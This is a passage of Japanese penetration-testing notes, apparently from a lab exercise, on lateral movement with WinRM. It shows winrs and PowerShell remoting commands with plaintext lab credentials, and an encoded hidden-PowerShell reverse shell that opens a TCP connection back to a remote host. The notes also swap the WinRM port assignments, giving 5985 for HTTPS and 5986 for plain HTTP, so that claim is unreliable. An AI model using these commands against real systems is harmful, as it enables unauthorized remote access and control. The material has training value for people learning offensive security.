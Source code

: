 ```powershell
--------- ----------- --------------
     3948           0 192.168.50.73
```

#### winRM

WinRMはWS-Management8プロトコルのMicrosoftバージョンで、HTTPとHTTPSでXMLメッセージを交換します。暗号化されたHTTPSトラフィックにはTCPポート**5985**を使用し、プレーンなHTTPにはポート**5986**を使用

**winrsはドメインユーザーに対してのみ動作**する

```powershell
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
FILES04
corp\jen
```

リバースシェルバージョン

```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

powershellで実行する場合

```powershell
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential

 Id Name            ComputerName    ComputerType    State         ConfigurationName     Availability
 -- ----            ------------    ------------    -----         -----------------     ------------
  1 WinRM1          192.168.50.73   RemoteMachine   Opened        Microsoft.PowerShell     Available
```

```
PS C:\Users\jeff> Enter-PSSession 1
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
corp\jen

[192.168.50.73]: PS C:\Users\jen\Documents> hostname
FILES04
```

### PsExec
